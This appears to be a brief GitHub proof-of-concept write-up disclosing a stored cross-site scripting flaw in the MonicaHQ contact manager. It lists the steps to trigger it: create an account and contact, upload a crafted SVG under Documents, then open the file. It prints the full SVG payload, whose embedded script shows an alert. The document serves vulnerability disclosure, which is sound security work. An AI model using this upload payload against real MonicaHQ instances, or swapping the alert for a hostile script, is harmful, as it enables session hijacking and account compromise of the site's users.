 # MonicaHQ XSS

## Exploitation of MonicaHQ XSS

- Create an account

- Create a contact

- In Documents, upload a malicious SVG file

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("Monicahq XSS Poc");
  </script>
</svg>

```
- Access the uploaded file

![image](https://github.com/Crypt0Cr33py/monicahqvuln/assets/108440914/71f6ec20-148b-4973-ac42-83ae7a5c0ae6)
